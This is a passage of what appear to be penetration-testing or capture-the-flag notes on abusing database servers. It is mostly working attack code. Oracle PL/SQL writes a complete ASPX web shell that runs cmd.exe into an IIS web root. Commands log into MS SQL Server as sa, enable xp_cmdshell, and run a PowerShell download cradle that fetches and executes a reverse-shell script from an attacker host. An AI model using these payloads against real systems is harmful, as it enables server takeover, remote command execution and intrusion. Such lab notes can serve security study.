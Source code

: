 ```sql 
declare 
  f utl_file.file_type;
  s varchar(2000) :='badrobot';
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'badrobot.txt', 'W');
  utl_file.put_line(f,s);
  utl_file.fclose(f);
  dbms_output.put_line(s);
end;
``` 

```sql
declare 
  f utl_file.file_type;
  s varchar(2000) :='<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Arguments = "/c "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><body><form id="cmd" method="post" runat="server"><asp:TextBox id="txtArg"  runat="server" Width="250px"></asp:TextBox><asp:Button id="testing"  runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText"  runat="server">Command:</asp:Label></form></body></HTML>';
begin
  f := utl_file.fopen('/inetpub/wwwroot', 'comments.aspx', 'W');
  utl_file.put_line(f,s);
  utl_file.fclose(f);
  dbms_output.put_line(s);
end;
```
Now Access the **comments.aspx** on the browser 

#  sql sever 


login to sql server using the creds 

`sqsh -S 10.10.10.59 -U sa -P <passwd>`

 we Enavle the XP_Cmdshell Options

```sql
>EXEC SP_CONFIGURE 'show advanced options', 1
2> reconfigure
3> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE 'xp_cmdshell', 1
2> reconfigure
3> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> 
```

uisng below we get reverse shell
```sql
1> xp_cmdshell "powershell IEX(New-Object net.webClient).downloadString('http://<ip>/rev.ps1')"
2> go
```




